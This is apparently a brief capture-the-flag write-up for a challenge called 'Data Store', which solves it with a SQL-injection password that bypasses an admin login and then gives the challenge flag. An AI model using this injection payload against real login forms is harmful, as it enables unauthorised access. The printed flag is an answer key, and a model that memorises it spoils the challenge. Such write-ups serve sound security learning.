 # Data Store
This task is for a simple sql injection.
Let's login with the admin username and password "1' OR ' 1 ' = ' 1"
Login successful
### cyctf{1_l0v3_$qli}
